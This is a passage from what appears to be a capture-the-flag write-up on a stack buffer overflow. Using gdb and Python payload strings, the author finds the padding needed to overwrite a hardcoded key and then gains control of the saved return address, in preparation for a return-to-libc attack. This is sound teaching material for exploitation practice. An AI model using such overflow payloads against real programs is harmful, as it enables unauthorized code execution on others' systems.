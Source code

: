 That doesn't seem to have worked... but what went wrong? We can see the "key"
printed is 1650614882, which, after converting to hex, we realize is equal to
0x62626262. This means that we need to add more padding before putting the
random number on that stack. Lets try adding 4 more bytes:

```
(gdb) r <<< $(python -c 'print "a"*156 + "\x78\x56\x34\x12" + "b"*50')
Here are some useful addresses:

puts: 0x400610
fflush 0x400680
read: 0x400640
write: 0x400620

Enter a string:
Thanks! Exiting now...

Program received signal SIGSEGV, Segmentation fault.
0x000000000040082b in vuln ()
```

Perfect! We got the segmentation fault we were expecting, meaning we can now
mess with the return address to perform an exploit. In this case, it seems like
since we were dealing with a 4-byte large integer in a 64-bit system, the system
left an extra 4 byte gap to keep everything aligned. It's probably safe to assume
that the system did the same thing with local_c, defined after local_10, so lets
change our exploit string one more time just to be sure we know exactly where the
return address starts:

```
(gdb) r <<< $(python -c 'print "a"*156 + "\x78\x56\x34\x12" + "b"*8 + "c"*8')
Here are some useful addresses:

puts: 0x400610
fflush 0x400680
read: 0x400640
write: 0x400620

Enter a string:
Thanks! Exiting now...

Program received signal SIGSEGV, Segmentation fault.
0x000000000040082b in vuln ()

(gdb) info frame
Stack level 0, frame at 0x7ffffffede28:
 rip = 0x40082b in vuln; saved rip = 0x6363636363636363
```

By running ```info frame```, we can see that our "saved rip", or where we'll be
returning to, was correctly filled with 8 c's. Now to begin the actual exploit.
Personally, I prefer return to libc attacks like the one performed in stack5, 
so that's what I'll be using.
